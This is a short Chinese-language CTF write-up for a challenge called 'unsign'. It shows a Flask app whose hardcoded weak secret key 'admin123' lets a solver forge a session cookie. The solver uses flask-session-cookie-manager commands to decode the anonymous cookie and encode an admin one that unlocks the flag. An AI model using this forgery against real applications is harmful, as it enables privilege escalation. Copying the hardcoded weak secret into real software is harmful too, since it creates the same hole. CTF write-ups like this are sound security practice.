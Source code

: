 # unsign

​	这道题考点为flask-session伪造。

```python
from flask import Flask, render_template, session, g
import base64
import pickle

app = Flask(__name__)
app.config['SECRET_KEY'] = 'admin123'


@app.route('/')
def show_index():
    if not session.get('role'):
        session['role'] = 'anonymous'

    g.role = session['role']

    if g.role == 'admin':
        g.msg = open('/flag').read()
    else:
        g.msg = 'Only admin can get flag!'

    return render_template('info.html')

app.run('0.0.0.0', 8000)
```

​	拿到加密密钥为admin123，使用工具https://github.com/noraj/flask-session-cookie-manager。

​	初次访问cookie为`eyJyb2xlIjoiYW5vbnltb3VzIn0.aH3e0g.rN4l1S6KfG8xN2yvoa60yLtj9jA`

```shell
python flask_session_cookie_manager3.py decode -c "eyJyb2xlIjoiYW5vbnltb3VzIn0.aH3e0g.rN4l1S6KfG8xN2yvoa60yLtj9jA" -s "admin123"
{'role': 'anonymous'}
```

```shell
python flask_session_cookie_manager3.py encode -t "{'role': 'admin'}" -s "admin123"
eyJyb2xlIjoiYWRtaW4ifQ.aH3jIg.CjV7ebNim3aea3wYjVf_oaWPgFU
```

​	修改cookie后访问直接拿到flag。

# ez-java